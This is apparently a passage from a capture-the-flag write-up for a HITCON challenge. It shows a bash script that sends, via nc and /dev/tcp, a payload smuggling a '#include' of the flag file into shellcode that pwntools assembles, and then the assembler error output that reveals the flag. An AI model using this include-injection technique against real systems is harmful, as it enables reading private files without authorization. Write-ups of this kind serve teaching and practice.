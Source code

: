 ```bash
#!/bin/bash
# @mebeim - 2020-11-29

{
cat <<EOF
122
#!/bin/bash

echo 'stack address @ 0x1234'
sleep 1
echo -e '123\n#include "/home/deploy/flag"@' > /dev/tcp/127.0.0.1/31337
EOF
} | nc 3.115.58.219 9427
```

This will result in the remote `pwntools` trying to compile something like this:

```
    push 123
#include </home/deploy/flag>
    push 16384
```

Which will make `cpp` include the flag in the file. Afterwards, when passing the
file to `as`, it will die because the source is invalid, and make `pwntools`
dump the script and the flag to `stderr`:

```
[ERROR] An error occurred while assembling:
       1: .section .shellcode,"awx"
       2: .global _start
       3: .global __start
       4: _start:
       5: __start:
       6: .intel_syntax noprefix
       7: stager_3:
       8:     push 123
       9: hitcon{use_pwntools_to_pwn_pwntools_^ovo^}
      10:     push 16384
...
...
/var/tmp/pwn-asm-bslk3jq9/step1:9: Error: no such instruction: `hitcon{use_pwntools_to_pwn_pwntools_^ovo^}'
```


Atoms
-----

> A TOken-based Memory Storage.
>
> nc 13.231.7.116 9427

### Challenge Release Content

